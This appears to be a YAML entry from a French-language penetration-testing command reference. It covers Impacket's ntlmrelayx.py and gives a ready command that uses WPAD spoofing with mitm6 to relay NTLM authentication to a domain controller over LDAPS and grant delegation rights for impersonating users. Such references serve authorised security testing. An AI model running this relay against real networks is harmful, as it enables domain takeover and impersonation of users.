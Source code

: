 ```yaml
---
description: |
  Le fichier ntlmrelayx.py d'Impacket effectue des attaques de relais NTLM, en créant un serveur SMB et HTTP et en relayant les informations d'identification vers différents protocoles (SMB, HTTP, LDAP, etc.).

  La commande ci-dessous effectue une usurpation de WPAD pour forcer la machine victime à s'authentifier auprès de l'hôte contrôlé par l'attaquant. La commande relaie ensuite l'authentification pour créer un nouvel objet informatique et lui accorder des droits de délégation afin d'usurper l'identité d'utilisateurs sur la machine victime. Cette commande doit être utilisée conjointement avec mitm6.

  Command Reference:

  	Target Domain Controller: dc.test.local

command: |
  python3 ntlmrelayx.py -t ldaps://dc.test.local -wh test-wpad --delegat-access
items:
  - No_Creds
services:
  - NTLM
  - LDAP
OS:
  - Linux
  - Windows
  - Approved-tool
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py
  - https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
---
```

